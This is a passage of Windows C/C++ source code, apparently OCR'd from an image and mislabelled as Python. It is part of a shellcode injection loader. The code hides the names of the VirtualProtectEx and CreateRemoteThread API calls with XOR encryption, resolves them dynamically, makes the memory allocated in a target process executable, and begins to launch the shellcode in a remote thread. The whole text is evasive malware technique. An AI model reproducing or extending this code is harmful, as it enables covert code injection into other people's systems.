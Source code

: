 ```python
        LPVOID lpAddress,
        SIZE_T dwSize,
        DWORD  flNewProtect,
        PDWORD lpflOldProtect
    );

    _VirtualProtectEx = ( BOOL(WINAPI *)
    (
        HANDLE hProcess,
        LPVOID lpAddress,
        SIZE_T dwSize,
        DWORD  flNewProtect,
        PDWORD lpflOldProtect   
    )) GetProcAddress( kernel32_dll_handle, VirtualProtectEx_encrypted );

    if( NULL == _VirtualProtectEx )
    {
        // printf( "Could not resolve VirtualProtectEx!\n" );
        return 0;
    }

    return_check = _VirtualProtectEx( target_process, target_process_allocated_memory, payload_size, PAGE_EXECUTE_READWRITE, &old_protect );

    if( FALSE == return_check )
    {
        // printf( "[!] VirtualProtectEx() returned false! Error code: %d\n", GetLastError() );
        return 1;
    }

    //
    // EXECUTED SHELLCODE IN ALLOCATED MEMORY
    //
    HANDLE handle_remote_thread = NULL;

    unsigned char CreateRemoteThread_encrypted[] = { 0x14, 0x25, 0x32, 0x36, 0x23, 0x32, 0x05, 0x32, 0x3a, 0x38, 0x23, 0x32, 0x03, 0x3f, 0x25, 0x32, 0x36, 0x33, 0x57 };
    xor_decrypt( CreateRemoteThread_encrypted, sizeof(CreateRemoteThread_encrypted) );

    HANDLE( WINAPI * _CreateRemoteThread )
    (
        HANDLE                 hProcess,
        LPSECURITY_ATTRIBUTES  lpThreadAttributes,
        SIZE_T                 dwStackSize,
        LPTHREAD_START_ROUTINE lpStartAddress,
        LPVOID                 lpParameter,
        DWORD                  dwCreationFlags,
        LPDWORD                lpThreadId   
    );

    _CreateRemoteThread = ( HANDLE(WINAPI *)
    (
        HANDLE                 hProcess,
        LPSECURITY_ATTRIBUTES  lpThreadAttributes,
        SIZE_T                 dwStackSize,
        LPTHREAD_START_ROUTINE lpStartAddress,
        LPVOID                 lpParameter,
        DWORD                  dwCreationFlags,
        LPDWORD                lpThreadId    
    )) GetProcAddress( kernel32_dll_handle, CreateRemoteThread_encrypted );

    if( NULL == _CreateRemoteThread )
    {
```